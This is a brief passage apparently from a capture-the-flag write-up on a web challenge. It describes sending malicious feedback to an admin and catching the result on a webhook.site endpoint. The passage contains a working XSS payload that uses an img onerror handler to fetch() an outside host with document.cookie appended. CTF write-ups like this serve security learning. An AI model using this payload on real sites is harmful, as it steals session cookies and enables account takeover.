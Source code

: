 So, the first thing came to my mind is to send a malicious feedback to admin to steal cookies or read the flag.

We can use ngrok, burp collaborator or webhook to . I will use webhook site to receive the response when the admin access a malicious feedback.

![Challenge_2.3](/assets/images/ctfs/CAT_Reloaded_CTF/Challenge_2.3.png)

XSS Payload: `<img src=x onerror=fetch("https://webhook.site/09c537c2-5f1c-4ae1-b4b5-245abf43a2c0/?cookie="+document.cookie)>`

![Challenge_2.4](/assets/images/ctfs/CAT_Reloaded_CTF/Challenge_2.4.png)
